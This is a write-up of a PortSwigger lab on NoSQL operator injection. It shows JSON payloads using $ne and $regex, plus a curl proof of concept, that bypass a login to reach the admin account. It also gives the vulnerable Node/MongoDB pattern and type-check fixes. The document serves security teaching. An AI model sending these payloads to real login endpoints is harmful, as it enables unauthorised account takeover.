

# Lab 02: Exploiting NoSQL operator injection to bypass authentication

> **Topic**: NoSQL Injection
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
NoSQL Injection — Authentication Bypass via Operator Injection

## Vulnerability Summary
The application's login form is vulnerable to NoSQL injection because it accepts and processes NoSQL operators within JSON request bodies. By submitting a JSON object instead of a string for the `username` and `password` fields, an attacker can use operators like `$regex` and `$ne` (not equal) to manipulate the database query. This allows the attacker to bypass authentication without knowing the valid password, or even to log in as a specific user (like `admin`) by matching their username with a regular expression.

## Attack Methodology

### Step 1: Analyze the Login Request
I intercepted the login request in Burp Suite and observed that it sends credentials as a JSON object:

```json
POST /login HTTP/2
Host: 0ae9003b042809858011fdf400b600af.web-security-academy.net
Content-Type: application/json

{
    "username": "wiener",
    "password": "peter"
}
```

### Step 2: Test for Operator Injection
I attempted to bypass the password check by replacing the password string with a NoSQL operator. Using `$ne` (not equal) with a dummy value ensures the condition `password != "dummy"` is true for almost any user.

```json
{
    "username": "wiener",
    "password": { "$ne": "invalid" }
}
```

This successfully logged me in as `wiener`.

### Step 3: Targeted Authentication Bypass (Admin)
To solve the lab, I needed to log in as the administrator. I used the `$regex` operator to match the administrator's username and `$ne` to bypass the password.

**Payload:**
```json
{
    "username": { "$regex": "admin.*" },
    "password": { "$ne": "" }
}
```

Sending this request resulted in a `302 Found` redirect to the administrator's account page (`/my-account?id=admin...`), confirming the successful bypass.




## Technical Root Cause
The vulnerability stems from the server-side application directly passing user-controlled JSON objects into the NoSQL query filter without validation.

```javascript
// Conceptual vulnerable code (Node.js/Express with MongoDB)
app.post('/login', (req, res) => {
    const { username, password } = req.body;
    // Vulnerable: req.body fields can be objects (operators) instead of strings
    db.users.findOne({ username, password }, (err, user) => {
        if (user) {
            // Login successful
        }
    });
});
```

Because the `username` and `password` variables can be objects like `{ "$ne": "" }`, MongoDB interprets them as query operators rather than literal values to match.

## Impact
- **Authentication Bypass**: Attackers can log in as any user without knowing their password.
- **Administrative Access**: Direct access to administrative accounts and functionalities.
- **Account Enumeration**: Operators like `$regex` can be used to systematically enumerate usernames.

## Proof of Concept
**Bypass Login for Admin:**
```bash
curl -X POST https://<LAB-ID>.web-security-academy.net/login \
  -H "Content-Type: application/json" \
  -d '{"username": {"$regex": "admin.*"}, "password": {"$ne": ""}}'
```

## Key Takeaways
1. **Type Validation is Critical**: Always ensure that incoming JSON fields are of the expected type (e.g., strings) before passing them to a database query.
2. **Sanitize Operator Keys**: Explicitly prevent the use of keys starting with `$` in user-supplied objects if they are used as query filters.
3. **NoSQL is not inherently immune to Injection**: While NoSQL avoids traditional SQL injection, it introduces a whole new class of "Operator Injection" and "JavaScript Injection" vulnerabilities.

## Mitigation
1. **Enforce String Types**: Use a schema validator or explicit checks to ensure `username` and `password` are strings.
   ```javascript
   if (typeof req.body.username !== 'string' || typeof req.body.password !== 'string') {
       return res.status(400).send("Invalid input type");
   }
   ```
2. **Use Built-in Sanitization**: Some ODM/ORMs (like Mongoose for MongoDB) have built-in protections or can be configured to sanitize inputs.
3. **Input Allowlisting**: Only allow specific, expected characters in usernames and passwords.

## References
- [PortSwigger NoSQL Injection Lab - Exploiting NoSQL operator injection to bypass authentication](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)
- [PortSwigger — NoSQL operator injection](https://portswigger.net/web-security/nosql-injection#nosql-operator-injection)

## Tools Used
- Burp Suite Professional (Repeater)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
